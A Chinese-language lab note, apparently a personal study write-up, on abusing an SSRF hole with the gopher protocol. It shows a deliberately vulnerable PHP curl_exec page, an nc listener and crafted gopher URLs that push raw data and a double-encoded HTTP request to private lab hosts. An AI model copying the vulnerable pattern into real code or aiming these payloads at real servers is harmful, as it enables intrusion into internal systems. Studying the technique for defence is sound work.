 #### 
#### 
#### 

#### SSRF中使用gopher协议

1. 先准备了一个带有ssrf漏洞的页面curl_exec.php，代码如下：

```php
<?php     
  $url = $_GET['url'];     
	$curlobj = curl_init($url);     
	echo curl_exec($curlobj); 
?>
```

2. 在机器A上开启了一个监听nc -lp 666，然后在浏览器中访问

`[http://192.168.0.109/ssrf/base/curl_exec.php?url=gopher://192.168.0.119:6666/_abc](http://192.168.0.109/ssrf/base/curl_exec.php?url=gopher://192.168.0.119:6666/_abc)`

3. 机器A中收到消息abc

**ssrf + gopher获取shell**

- 准备一个get.php的页面

```php
<?php
    echo "Hello ".$_GET["name"]."\n"
?>
```

- 组成数据包

`[http://192.168.0.109/ssrf/base/curl_exec.php?url=gopher://192.168.0.109:80/_GET%20/ssrf/base/get.php%3fname=Margin%20HTTP/1.1%0d%0AHost:%20192.168.0.109%0d%0A](http://192.168.0.109/ssrf/base/curl_exec.php?url=gopher://192.168.0.109:80/_GET%20/ssrf/base/get.php%3fname=Margin%20HTTP/1.1%0d%0AHost:%20192.168.0.109%0d%0A)`
:::info
这个数据包的理解是

- curl_exec.php中存在ssrf漏洞，可以利用gopher协议
- 用gopher协议向get.php界面发送一个HTTP数据包，数据包中包括name=Margin等信息
  :::

- 这里发现请求失败了

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1675865975357-a4808b79-bda3-4a41-8b76-c198f393a866.png#averageHue=%23f4f4f4&clientId=u3e1739e4-bb48-4&from=paste&id=u5eea6200&originHeight=151&originWidth=2243&originalType=url&ratio=1&rotation=0&showTitle=false&size=111825&status=done&style=none&taskId=u144a60c8-f62a-4e02-bb58-cd3d34304ea&title=)

- 因为PHP在接收到参数后会做一次URL的解码，解码后就破坏了数据包的格式。这样我就对下划线_后面的内容再进行一次url编码，这样就可以保证GET数据包的格式

```php
<?php     
  $url = $_GET['url'];     
	$curlobj = curl_init($url);     
	echo curl_exec($curlobj); 
/*
$curlobj 应该满足下面的格式
gopher://192.168.0.109:80/_GET /ssrf/base/get.php?name=Margin HTTP/1.1
Host: 192.168.0.109
*/
?>
```
